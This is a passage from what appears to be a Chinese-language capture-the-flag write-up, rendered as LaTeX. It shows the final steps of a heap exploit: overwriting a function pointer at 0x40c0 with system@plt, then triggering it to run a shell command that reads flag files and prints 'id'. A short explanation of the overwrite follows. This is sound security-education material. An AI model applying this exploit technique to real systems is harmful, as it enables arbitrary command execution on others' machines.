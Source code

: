 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
    \CommentTok{\# 5) 兩次 alloc：第一次拿回 P，第二次就拿回 TARGET}
\NormalTok{    cb.alloc(IDX\_TMP, CHUNK, }\StringTok{b\textquotesingle{}B\textquotesingle{}} \OperatorTok{*}\NormalTok{ CHUNK)}
\NormalTok{    cb.alloc(IDX\_TARGET, CHUNK, p64(system\_plt) }\OperatorTok{+} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}} \OperatorTok{*}\NormalTok{ (CHUNK }\OperatorTok{{-}} \DecValTok{8}\NormalTok{))  }\CommentTok{\# 寫入 0x40c0}

    \CommentTok{\# 6) 驗證 + 觸發：cmd 0x15 會 call [0x40c0](我們的字串) = system(我們的字串)}
\NormalTok{    back }\OperatorTok{=}\NormalTok{ cb.read(IDX\_TARGET)}
    \ControlFlowTok{assert}\NormalTok{ u64(back[}\DecValTok{0}\NormalTok{:}\DecValTok{8}\NormalTok{]) }\OperatorTok{==}\NormalTok{ system\_plt}
\NormalTok{    cb.cmd(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x15}\StringTok{\textquotesingle{}} \OperatorTok{+} \StringTok{b\textquotesingle{}cat flag.txt /flag /home/*/flag.txt 2\textgreater{}/dev/null; ls {-}la; id; echo DONE\textquotesingle{}}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\begin{quote}
為什麼第 5 步的 \texttt{alloc} 不會壞？ \texttt{cmd\ \allowbreak{}0x10} 會
\texttt{memcpy(slot.\allowbreak{}ptr,\allowbreak{}\ \allowbreak{}msg+4,\allowbreak{}\ \allowbreak{}size)}，也就是把我們的 0x80 bytes
\textbf{寫到 \texttt{0x40c0}}，第一個 8 bytes 就是
\texttt{system@plt}，其它填 0（\texttt{0x40c8} 之後只是版本字串／
空槽，不影響程式邏輯）。
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{8. 實際輸出}\label{ux5be6ux969bux8f38ux51fa}

\paragraph{\texorpdfstring{8.1
本機（\texttt{printf\ \allowbreak{}\textquotesingle{}\allowbreak{}sun\{\allowbreak{}local\_\allowbreak{}test\_\allowbreak{}flag\}\allowbreak{}\textquotesingle{}\allowbreak{}\ \allowbreak{}\textgreater{}\allowbreak{}\ \allowbreak{}flag.\allowbreak{}txt}）}{8.1 本機（printf \textquotesingle sun\{local\_test\_flag\}\textquotesingle{} \textgreater{} flag.txt）}}\label{ux672cux6a5fprintf-sunlocal_test_flag-flag.txt}
\end{document}
